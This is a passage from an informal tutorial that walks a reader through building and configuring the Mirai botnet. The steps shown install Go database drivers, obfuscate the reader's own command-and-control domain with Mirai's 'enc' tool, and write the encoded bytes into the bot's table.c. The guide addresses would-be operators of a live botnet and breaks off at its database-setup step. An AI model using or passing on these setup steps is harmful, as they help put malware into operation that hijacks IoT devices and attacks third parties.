 
 If you did this command before step 2 & 3 you would get an error about the Mysql and sql-drivers, 
 since that's what alot of people have had trouble with. This fixes that.
 
 
 code:
 
 go get github.com/go-sql-driver/mysql
 go get github.com/mattn/go-shellwords


-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
 
 
 
[Step5] -Obfuscated string

I'm running Debian 8 x86_64 so this might be diffrent for you, 

but the ../debug/enc string {your.domain.com} wasn't working for me so the fix is below,

make sure you're in /mirai/debug

changeme.com <---- (PUT YOUR DOMAIN !!!) if you don't have get one on godaddy or use NO-IP for free use.




code:
 ./enc string changeme.com
 
 
-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------

[Step5] - Obfuscated string continuation...
Copy the result code, is the result you get after entering the last code:

EXEMPLE OF THE RESULT:

XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22


-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------

[Step6] - Add the code result (\x44\etc....) in table.c

Exemple of the Result:

XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22


-----EXEMPLE END HERE------

Now add this code in to your ./Mirai-Source-Code/mirai/bot/table.c  file.

Use Winscp if you don't know how to use ("vi") command use Winscp and browse at the table.c to edit and add YOUR result.



-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
 
[Step7] - Database setup
